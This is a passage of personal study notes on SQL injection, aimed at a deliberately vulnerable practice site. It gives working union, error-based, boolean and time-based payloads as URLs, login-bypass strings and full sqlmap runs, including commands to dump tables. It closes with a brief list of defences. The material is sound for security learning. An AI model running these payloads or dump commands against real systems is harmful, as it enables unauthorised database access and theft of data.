| y                  |
+--------------------+
7 rows in set (0.001 sec)
```

**To list all the database**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 union select 1,user(),3,4,3,4,version(),8,schema_name,10,11 from information_schema.schemata
```



**To show all the tables**

```
MariaDB [dark]> select table_name from information_schema.tables where table_schema="dark";
+------------+
| table_name |
+------------+
| login      |
+------------+
1 row in set (0.001 sec)

MariaDB [dark]>
```

**To list all the tables**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 union select 1,user(),3,4,3,4,version(),8,table_name,10,11 from information_schema.tables where table_schema="acuart"
```




**To make it more clear and shorter**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 union select 1,user(),3,4,3,4,version(),8,group_concat(table_name),10,11 from information_schema.tables where table_schema="acuart"
```




#### Error - Error Based

  ```
  MariaDB [dark]> use y;
  Database changed
  MariaDB [y]> show tables;
  +-------------+
  | Tables_in_y |
  +-------------+
  | users       |
  +-------------+
  1 row in set (0.000 sec)
  
  MariaDB [y]> select * from users;
  +----------+
  | name     |
  +----------+
  | sherwin  |
  | analette |
  | reine    |
  +----------+
  3 rows in set (0.000 sec)
  
  MariaDB [y]> select name from users where name="sherwin" or 1=1 group by round(rand(0)) having min(0);
  ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'
  
  MariaDB [y]> select name, round(rand(0)), concat(version(),round(rand(0))) from users;
  +----------+----------------+----------------------------------+
  | name     | round(rand(0)) | concat(version(),round(rand(0))) |
  +----------+----------------+----------------------------------+
  | sherwin  |              0 | 10.4.17-MariaDB0                 |
  | analette |              1 | 10.4.17-MariaDB1                 |
  | reine    |              1 | 10.4.17-MariaDB1                 |
  +----------+----------------+----------------------------------+
  3 rows in set (0.000 sec)
  ```


      ```
      MariaDB [y]> select name,rand() from users;
      +----------+---------------------+
      | name     | rand()              |
      +----------+---------------------+
      | sherwin  |  0.5641665035525025 |
      | analette |  0.7424374937475077 |
      | reine    | 0.01968798881367593 |
      +----------+---------------------+
      3 rows in set (0.000 sec)
      
      MariaDB [y]> select name,rand() from users;
      +----------+---------------------+
      | name     | rand()              |
      +----------+---------------------+
      | sherwin  |  0.8711274935595016 |
      | analette | 0.29657353209012516 |
      | reine    |  0.8694852105057661 |
      +----------+---------------------+
      3 rows in set (0.000 sec)
      
      MariaDB [y]> select name,rand(0),round(rand(0)) from users;
      +----------+---------------------+----------------+
      | name     | rand(0)             | round(rand(0)) |
      +----------+---------------------+----------------+
      | sherwin  | 0.15522042769493574 |              0 |
      | analette |   0.620881741513388 |              1 |
      | reine    |  0.6387474552157777 |              1 |
      +----------+---------------------+----------------+
      3 rows in set (0.000 sec)
      
      MariaDB [y]> select name,rand(0),round(rand(0)) from users;
      +----------+---------------------+----------------+
      | name     | rand(0)             | round(rand(0)) |
      +----------+---------------------+----------------+
      | sherwin  | 0.15522042769493574 |              0 |
      | analette |   0.620881741513388 |              1 |
      | reine    |  0.6387474552157777 |              1 |
      +----------+---------------------+----------------+
      3 rows in set (0.000 sec)
      
      MariaDB [y]> select name from users group by round(rand(0));
      +----------+
      | name     |
      +----------+
      | sherwin  |
      | analette |
      +----------+
      2 rows in set (0.001 sec)
      ```


**Showing Group Key Error**]

```
MariaDB [y]> select name from users group by round(rand(0)) having min(0);
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'

OR

MariaDB [y]> select name,count(*) from users group by round(rand(0));
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'
```

**It will show all the rows**

```
MariaDB [y]> select name from users where name="sherwin" or 1=1;
+----------+
| name     |
+----------+
| sherwin  |
| analette |
| reine    |
+----------+
3 rows in set (0.000 sec)
```


```
MariaDB [y]> select name from users where name="sherwin" or 1=1 group by round(rand(0)) having min(0);
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'
```


```
MariaDB [y]> select name,concat(version()),round(rand(0)) from users;
+----------+-------------------+----------------+
| name     | concat(version()) | round(rand(0)) |
+----------+-------------------+----------------+
| sherwin  | 10.4.17-MariaDB   |              0 |
| analette | 10.4.17-MariaDB   |              1 |
| reine    | 10.4.17-MariaDB   |              1 |
+----------+-------------------+----------------+
3 rows in set (0.001 sec)

MariaDB [y]> select name,concat(version(),database(),user(),round(rand(0))) from users;
+----------+----------------------------------------------------+
| name     | concat(version(),database(),user(),round(rand(0))) |
+----------+----------------------------------------------------+
| sherwin  | 10.4.17-MariaDByroot@localhost0                    |
| analette | 10.4.17-MariaDByroot@localhost1                    |
| reine    | 10.4.17-MariaDByroot@localhost1                    |
+----------+----------------------------------------------------+
3 rows in set (0.000 sec)

MariaDB [y]> select name,concat(version()," ",database()," ",user()," ",round(rand(0))) from users;
+----------+----------------------------------------------------------------+
| name     | concat(version()," ",database()," ",user()," ",round(rand(0))) |
+----------+----------------------------------------------------------------+
| sherwin  | 10.4.17-MariaDB y root@localhost 0                             |
| analette | 10.4.17-MariaDB y root@localhost 1                             |
| reine    | 10.4.17-MariaDB y root@localhost 1                             |
+----------+----------------------------------------------------------------+
3 rows in set (0.000 sec)
```


```
http://testphp.vulnweb.com/listproducts.php?cat=2 or 1=1 group by round(rand(0)) having min(0)#
```


```
http://testphp.vulnweb.com/listproducts.php?cat=2 or 1=1 group by concat(version()," ",database()," ",user()," ",round(rand(0))) having min(0)#
```


### 2. Inferential SQL Injections
#### True/False - Boolean Based

  ```
  MariaDB [y]> use dark;
  Database changed
  
  MariaDB [dark]> show tables;
  +----------------+
  | Tables_in_dark |
  +----------------+
  | login          |
  +----------------+
  1 row in set (0.001 sec)
  
  MariaDB [dark]> select * from login;
  +------+---------+----------+-------------+
  | id   | name    | password | country     |
  +------+---------+----------+-------------+
  |    1 | Sherwin | 12345    | Philippines |
  +------+---------+----------+-------------+
  1 row in set (0.000 sec)
  
  # Getting the length of the database
  
  MariaDB [dark]> select * from login where id=2 or length(database())="1";
  Empty set (0.000 sec)
  
  MariaDB [dark]> select * from login where id=2 or length(database())="4";
  +------+---------+----------+-------------+
  | id   | name    | password | country     |
  +------+---------+----------+-------------+
  |    1 | Sherwin | 12345    | Philippines |
  +------+---------+----------+-------------+
  1 row in set (0.000 sec)
  ```

**Getting the name of the database using substring**

```
MariaDB [dark]> select * from login where id=2 or substring(database(),1,1)="a";
Empty set (0.001 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),1,1)="d";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),2,1)="a";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),3,1)="r";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),4,1)="k";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),1,4)="dark";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.001 sec)
```

**Getting the name of the database using like**

```
MariaDB [dark]> select * from login where id=2 or database() like "%b%";
Empty set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%ad%";
Empty set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%rk%";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%da%";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%rk";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "da%";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "d_rk";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "d__k";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)
```

**Name of database is "acuart" length of database is "6"**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 and database() like "%art"
```

```
http://testphp.vulnweb.com/listproducts.php?cat=2 and substring(database(),1,1)="a";
```


```
http://testphp.vulnweb.com/listproducts.php?cat=2 and length(database())="6"
```




#### Time - Time/Sleep Based

  ```
  MariaDB [dark]> use y;
  Database changed
  MariaDB [y]> show tables;
  +-------------+
  | Tables_in_y |
  +-------------+
  | users       |
  +-------------+
  1 row in set (0.001 sec)
  
  MariaDB [y]> select * from users;
  +----------+
  | name     |
  +----------+
  | sherwin  |
  | analette |
  | reine    |
  +----------+
  3 rows in set (0.000 sec)
  
  MariaDB [y]> select * from users where name="sherwin" and if(database()="y",sleep(2),sleep(5));
  Empty set (2.009 sec)
  
  MariaDB [y]> select * from users where name="sherwin" and if(database()="z",sleep(2),sleep(5));
  Empty set (5.010 sec)
  ```

**If command**

```
mysql> select * from users where name="sherwin" and if(database()="a",sleep(2),sleep(5));
Empty set (5.01 sec)

mysql> select * from users where name="sherwin" and if(database()="y",sleep(2),sleep(5));
Empty set (2.00 sec)

mysql> select * from users where name="sherwin" and if(length(database())="1",sleep(2),sleep(5));
Empty set (2.00 sec)

mysql> select * from users where name="sherwin" and if(length(database())="2",sleep(2),sleep(5));
Empty set (5.00 sec)
```

````
http://testphp.vulnweb.com/listproducts.php?cat=2 and and if(length(database())="6",sleep(2),sleep(5));
````


### 3. Out of Band SQLi

   - Oracle
   - UTL_HTTP


## Classic Injection Bypass

```
MariaDB [y]> use dark
Database changed

MariaDB [dark]> select * from login;
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="Sherwin" and password="12345";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="sherwin" or "1"="1" and password="12345" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="ser" or "1"="1" and password="67890" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="ser" or "1"="1";# and password="67890" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.001 sec)

MariaDB [dark]> select * from login where name="ser" or "1"="1";-- and password="67890" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)
```


**Comment in SQL**

- -- or -- -
- #
- /*


- ' or 1=1-- -
- ' or 1=1-- -
- ' or 1=1#
- " or 1=1--


http://demo.testfire.net/login.jsp



## SQL Injection Tools

### Semi-Automated

#### Burpsuite

### Automated

#### sqlmap

```
sherwinowen@owenbox:~/my_tools/sqlmap$ python3 sqlmap.py -r request.txt
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.10.15#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:20:56 /2021-10-14/

[13:20:56] [INFO] parsing HTTP request from 'request.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] 
[13:21:06] [INFO] testing connection to the target URL
got a 302 redirect to 'http://testphp.vulnweb.com:80/login.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
[13:21:50] [INFO] testing if the target URL content is stable
[13:21:50] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic
[13:21:51] [INFO] heuristic (basic) test shows that (custom) POST parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[13:21:52] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[13:22:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:22:08] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:22:09] [INFO] testing 'Generic inline queries'
[13:22:10] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[13:22:20] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[13:22:25] [INFO] (custom) POST parameter '#1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
[13:22:25] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[13:22:25] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[13:22:26] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[13:22:26] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[13:22:27] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[13:22:27] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[13:22:28] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[13:22:28] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[13:22:29] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:22:29] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:22:30] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:22:30] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:22:31] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[13:22:32] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[13:22:33] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:22:33] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[13:22:34] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[13:22:34] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[13:22:34] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[13:22:34] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[13:22:34] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[13:22:34] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[13:22:34] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[13:22:34] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[13:22:34] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[13:22:34] [INFO] testing 'MySQL inline queries'
[13:22:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[13:22:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[13:22:36] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[13:22:36] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[13:22:37] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[13:22:37] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[13:22:38] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:22:49] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[13:22:49] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:22:49] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[13:22:49] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:23:04] [INFO] target URL appears to be UNION injectable with 8 columns
[13:23:06] [INFO] (custom) POST parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[13:23:06] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 91 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: uname=-9080' OR 3819=3819#&pass=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=' AND (SELECT 5751 FROM (SELECT(SLEEP(5)))TbTU)-- JgtD&pass=

    Type: UNION query
    Title: MySQL UNION query (NULL) - 8 columns
    Payload: uname=' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716b787871,0x49674f717a43766442797866754b77625a4249676a535150615562525262734d6269756447477746,0x71716a7a71),NULL,NULL,NULL#&pass=
---
[13:24:08] [INFO] the back-end DBMS is MySQL
[13:24:08] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12
[13:24:12] [INFO] fetched data logged to text files under '/home/sherwinowen/.local/share/sqlmap/output/testphp.vulnweb.com'

[*] ending @ 13:24:11 /2021-10-14/
```

**Get the databases**

```
sherwinowen@owenbox:~/my_tools/sqlmap$ python3 sqlmap.py -r request.txt --dbs
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.10.15#dev}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:27:45 /2021-10-14/

[13:27:45] [INFO] parsing HTTP request from 'request.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] y
[13:28:03] [INFO] resuming back-end DBMS 'mysql' 
[13:28:03] [INFO] testing connection to the target URL
got a 302 redirect to 'http://testphp.vulnweb.com:80/login.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: uname=-9080' OR 3819=3819#&pass=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=' AND (SELECT 5751 FROM (SELECT(SLEEP(5)))TbTU)-- JgtD&pass=

    Type: UNION query
    Title: MySQL UNION query (NULL) - 8 columns
    Payload: uname=' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716b787871,0x49674f717a43766442797866754b77625a4249676a535150615562525262734d6269756447477746,0x71716a7a71),NULL,NULL,NULL#&pass=
---
[13:28:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12
[13:28:12] [WARNING] information_schema not available, back-end DBMS is MySQL < 5. database names will be fetched from 'mysql' database
[13:28:13] [WARNING] the SQL query provided does not return any output
[13:28:13] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[13:28:13] [INFO] fetching number of databases
[13:28:14] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:28:14] [INFO] retrieved: 
[13:28:15] [WARNING] time-based comparison requires larger statistical model, please wait....................... (done)
[13:28:26] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[13:28:27] [ERROR] unable to retrieve the number of databases
[13:28:27] [INFO] falling back to current database
[13:28:27] [INFO] fetching current database
available databases [1]:
[*] acuart

[13:28:28] [INFO] fetched data logged to text files under '/home/sherwinowen/.local/share/sqlmap/output/testphp.vulnweb.com'

[*] ending @ 13:28:28 /2021-10-14/
```

**Get the tables**

```
python3 sqlmap.py -r request.txt -D [databse name] --tables
```

**Get the columns**

```
python3 sqlmap.py -r request.txt -D acuart -T [table name] --columns
```

**Get records/ Extract data** 

```
python3 sqlmap.py -r request.txt -D acuart -T [table name] -C [coloumn names] --dump
```


## Defend Against SQL Injection Attacks

1. Input validation
2. Parameterized queries
3. Stored procedures
4. Escaping

https://www.ptsecurity.com/ww-en/analytics/knowledge-base/how-to-prevent-sql-injection-attacks/

### Multi Layer Defense

1. **Layer 1 - Secure Coding**

- Input validation
- Parameterized queries
- Stored procedures
- Escaping

2. **Layer 2 - Host Based WAF (Web Application Firewall)**

   - Wordfence - Wordpress WAF

     https://www.wordfence.com/

3. **Layer 3 - Edge Sided WAF**

   - Cloudflare

     

